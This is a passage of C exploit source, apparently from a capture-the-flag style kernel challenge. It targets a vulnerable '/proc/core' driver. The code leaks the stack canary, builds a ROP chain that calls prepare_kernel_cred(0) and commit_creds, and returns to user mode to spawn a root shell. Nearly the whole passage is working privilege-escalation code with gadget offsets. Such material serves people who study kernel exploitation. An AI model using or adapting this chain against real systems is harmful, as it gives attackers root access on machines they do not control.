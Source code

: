 ```c
{
	printf("[*]copy from user with size: %ld\n",size);
	ioctl(fd,0x6677889A,size);
}

int main(){
	save_status();
	int fd = open("/proc/core",2);
	if(fd < 0)
	{
		puts("[*]open /proc/core error!");
		exit(0);
	}

	find_symbols();

	ssize_t offset = vmlinux_base - raw_vmlinux_base;

	set_off(fd,0x40);

	char buf[0x40] = {0};
	core_read(fd,buf);
	size_t canary = ((size_t *)buf)[0];
	printf("[+]canary: %p\n", canary);

	size_t rop[0x1000] = {0};

	int i;
	for(i = 0;i < 10;i++)
	{
		rop[i] = canary;
	}
	rop[i++] = 0xffffffff81000b2f + offset;  //pop rdi ; ret
	rop[i++] = 0;
	rop[i++] = prepare_kernel_cred;         // prepare_kernel_cred(0)

	rop[i++] = 0xffffffff81021e53 + offset; //pop rcx ; ret
	rop[i++] = commit_creds;
	rop[i++] = 0xffffffff811ae978 + offset; //mov rdi, rax; jmp rcx

	rop[i++] = 0xffffffff81a012da + offset; //swapgs ; popfq ; ret
	rop[i++] = 0;
	rop[i++] = 0xffffffff81050ac2 + offset; //iretq ; ret

	rop[i++] = (size_t)spawn_shell; //rip
	rop[i++] = user_cs;
	rop[i++] = user_rflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	write(fd,rop,0x800);
	core_copy_func(fd,0xffffffffffff0000 | (0x100));

	return 0;
}
```


